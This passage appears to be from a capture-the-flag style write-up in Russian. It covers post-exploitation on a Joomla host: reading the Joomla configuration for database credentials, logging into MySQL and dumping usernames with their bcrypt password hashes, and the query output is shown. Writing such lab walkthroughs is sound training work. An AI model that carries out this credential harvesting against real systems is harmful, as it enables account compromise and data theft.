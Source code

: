 
![plot](./screens/9.png)

# Postexploitation and Privilage escalation

## 13. Проверьте интересные файлы

Перейдите по пути к конфигурации базы данных Joomla и найдите учетные данные для базы данных.

![plot](./screens/10.png)

## 14. Подключиться к MySQL

Подключитесь к MySQL и покажите базы данных

```bash
mysql -u lewis -p

```


```sql
mysql> show databases;
mysql> use joomla;
mysql> show tables;
mysql> select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)

```
У нас есть два хеша: наш пользователь Льюис и неизвестный пользователь logan.
